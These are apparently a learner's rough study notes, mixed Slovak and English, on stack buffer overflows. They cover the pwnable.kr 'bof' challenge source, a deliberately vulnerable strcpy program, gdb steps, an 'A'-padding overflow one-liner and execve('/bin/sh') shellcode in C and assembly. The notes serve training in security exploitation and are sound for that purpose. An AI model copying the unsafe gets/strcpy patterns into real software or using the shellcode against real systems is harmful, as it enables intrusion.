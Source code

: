 Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

bof.c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

------------------------------------------------------------
https://linuxhint.com/nc-command-examples/

nc = netcat command umoznuje
network tool that allows users to transfer files between devices, scan ports and diagnose problems. 

gdb
file bof
disassemble nazov_func

dam breakpoint na potrebne miesto
break *0x080484bb




--------------------------buffer overflow computerophile

#include <stdio.h>
#include <string.h>

int main (int argc, char** argv)
{
	char buffer[500];
	strcpy(buffer, argv[1]);

	return 0;
}


gcc -m32 -g -fno-stack-protector -o vuln vuln.c

chyba
/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory

sudo apt-get install gcc-multilib

gdb vuln
run Hello
// exited normally
disas main
list

run $(python -c 'print "\x41" * 506')
info registers

------------otazka bola polozena, neviem preco aj instruction pointer nie je prepisany, idem skusit tento druhy tutorial

-> je to zrejme kvoli memory randomization 
https://gist.github.com/apolloclark/6cffb33f179cc9162d0a

toto tam mam povodne
cat /proc/sys/kernel/randomize_va_space
2

//urobil som podla clanku ale stale je eip neprepisany



https://www.youtube.com/watch?v=hJ8IwyhqzD4

gcc -m32 -g -fno-stack-protector -o example example.c

gdb ./example

finding starts of buffer:
disas main
hladam call strcpy@plt a zoberiem adresu a dam breakpoint

break *adresa

run $(python -c "print('A'*256)")

Cannot insert breakpoint 1.
Cannot access memory at address 0x11ea
// cize neviem na dane meisto vlozit BP, neviem preco

============================================================
------skusim video hindi muza
https://www.youtube.com/watch?v=btkuAEbcQ80

#include <stdio.h>
#include <string.h>

void function(int a, int b, int c)
{
	char buffer1[5];
	char buffer2[10];


int main (int argc, char** argv)
{
	function(1,2,3);

	return 0;
}


frame pointer = ebp register - points to the current function frame

stack pointer = esp - points to the bottom of the stack


´teraz si napisem exploit z zh shellom

#include <stdio.h>
#include <stdlib.h>

void main(){
	char *name[2];
	
	name[0] = "/bin/sh";	/* exe filename */
	name[1] = NULL;
	execve(name[0], name, NULL);
	exit(0);
}

gcc -m32 -o exploit1 exploit1.c

ten isty program prepisany do ASM

#include <stdio.h>
#include <stdlib.h>

void main(){
asm(
	"movl $1f, %esi;"
	"movl %esi, 0x8(%esi);"
	"movb $0x0, 0x7(%esi);"
	"movl $0x0, 0xc(%esi);"
	"movl $0xb, %eax;"
	"movl %esi, %ebx;"
	"leal 0x8(%esi), %ecx;"
	"leal 0xc(%esi), %edx;"
	"int $0x80;"
	".section .data;"
	"1: .string \"/bin/sh	\";"
	".section .text;"
);
}

gcc -m32 -o exploit1 exploit1.c


teraz potrebujem z exploit1 vygenerovat object file
gcc -g -O -c -m32 exploit1.c

vygeneruje subor exploit1.o


objdump -disassemble-all exploit1
- ale nezobrazi instrukcie


================================Liveoverflow 

(gdb) info proc mappings
tymto sa pozriem ako vyzera stack

==========================NEFUNGUJE mi demonstracia
skusam stiahnut protostar

https://tox7cv3nom.medium.com/stack-overflow-bof-challenge-writeup-f047f01b2df2


gcc -g -O -c -m32 bof.c






====
https://ethicalhackingguru.com/the-buffer-overflow-guide-for-kali-linux/

https://samsclass.info/127/proj/p3-lbuf1.htm

https://security.stackexchange.com/questions/166279/cannot-overwrite-eip-in-basic-exploitation-example

https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html

https://pswalia2u.medium.com/r-3-4-4-buffer-overflow-vanilla-eip-overwrite-c205c2d3b1f7

https://jagskap.blogspot.com/2021/10/buffer-overflow-overview-part-i.html

----windows buffer overflow
https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/


--nejde prepisat eip
https://security.stackexchange.com/questions/166279/cannot-overwrite-eip-in-basic-exploitation-example
http://www.phearless.org/istorija/razno/buffer-overflow-example.txt
https://stackoverflow.com/questions/35471878/difference-between-exit-and-return-in-main-function-in-c

liveoverflow
https://www.youtube.com/watch?v=T03idxny9jE


=========================
hammond
https://www.youtube.com/watch?v=yJF0YPd8lDw


